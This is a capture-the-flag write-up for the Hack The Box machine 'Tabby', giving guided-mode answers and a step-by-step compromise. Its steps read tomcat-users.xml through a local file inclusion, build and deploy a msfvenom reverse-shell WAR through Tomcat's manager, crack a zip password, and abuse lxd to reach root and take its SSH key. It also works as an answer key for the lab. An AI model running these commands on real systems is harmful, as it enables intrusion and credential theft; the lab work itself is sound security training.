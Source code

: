 # Hack The Box

## Tabby (Guided Mode)

### Guided mode

Q. How many TCP ports are open on the remote host?

```A. 3```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/6c76be3c-5b07-4dbb-885d-8259e0fc7d8e)

Q. What application is running on TCP 8080? (One word)

```A. Tomcat```

Q. Which link leads to the page containing the statement on recovering from the data breach?

```A. http://megahosting.htb/news.php?file=statement```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/430bfdda-cfcd-401d-a342-ab1f48460e0f)

Q. Which URL parameter of the ```news.php``` page is vulnerable to Local File Inclusion?

```A. file```

Q. Which system user has user id 1000 on Tabby?

```A. ash```

Q. What is the full path of Apache Tomcat's configuration file which contains a list of user names, roles, and passwords.

```A. /usr/share/tomcat9/etc/tomcat-users.xml```

Q. What is the password of the Apache Tomcat user ```tomcat```?

```A. $3cureP4s5w0rd123!```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/0cab503c-521e-4941-ae80-7b37ed41993b)

Q. What is the path on the webserver that leads to the text interface of the Host Manager app of Apache Tomcat?

```A. /manager/text```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/15e79cf5-97a5-4fdf-a332-89d301660b0a)

Q. Which command is used in the text interface of the Host Manager app of Apache Tomcat to deploy a new application archive (WAR) remotely?

```A. deploy```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/44556790-5b5a-4656-ab98-9547c08e3b89)

Q. What is the password for the file 16162020_backup.zip?

```A. admin@it```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/2633972e-d5ee-46f7-98d6-8773eb99d579)

Q. Which interesting user group is the user ash a member of?

```A. lxd```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/abb5c59d-cab3-429d-84b5-5223bde8a55b)

> https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

Q. What is the command for listing the VM images present in lxd?

```A. lxc image list```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/fc1e833b-2e51-4e0e-bbc9-24f8e0be91c3)

Q. Which flag needs to be set as true in the lxc init command in order to force the container to interact as root with the host filesystem?

```A. security.privileged```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/e57aa73e-45e2-4dcc-9fb2-a675aca0f6dd)



### Step by step guide


1. We start with an nmap scan and discover http server running on port 80 and tomcat running on port 8080
2. Checking the website we discover a LFI vulnerability on news.php?file=**statement**
3. We can exploit this LFI vulnerability to read the tomcat configuration - ```http://megahosting.htb/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml```
4. The above url returns a blank webpage, but if we check source, we can see the xml file with the tomcat manager password
5. We can now go to megahosting.htb:8080/manager/ and login using the password found in the ```tomcat-users.xml``` file
6. The tomcat manager can use curl to interact with the tomcat interface
7. We run wfuzz or ffuf on /manager/FUZZ and check what options we have and we get ```text``` which can be exploited to get command execution
8. Now when we run ```curl -u tomcat:'$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list``` to check if the command works and we get the list
9. We generate a payload using ```msfvenom -p java/shell_reverse_tcp lhost=x.x.x.x lport=xxxx -f war -o webshell.war```
10. We can now upload the payload and get code execution ```curl -u tomcat:'$3cureP4s5w0rd123!' -T webshell.war http://10.10.10.194:8080/manager/text/deploy?path=/webshell&update=true```
11. We are logged on as tomcat and we need to get to user ash
12. We found a zip file under /var/www/html/files/, we transfer the file to our local machine, but the file is password protected
13. Try to crack the password using fcrackzip - ```fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip```
14. Now that we have the password we use ```su ash``` and enter the password, we are now user and can read ```/home/ash/user.txt```
15. Privilege escalation tip no 1, run the following commands before running any automated scipts like Linpeas - ```id, uname -a, lsb_release, sudo -l```
16. We find that user ash is a part of the lxd group, which is a tool used for running containers and virtual machines.
17. We can use the Method 2 in - ```https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation```
18. After followin the steps and running the final command - ```lxc exec mycontainer /bin/sh```
19. We are now root. We can goto ```/mnt/root/root/.ssh/``` and copy the private key on our machine and save it as root.key
20. We do ```chmod 600 root.key``` and ```ssh -i root.key root@megahosting.htb``` and **PWNED**.
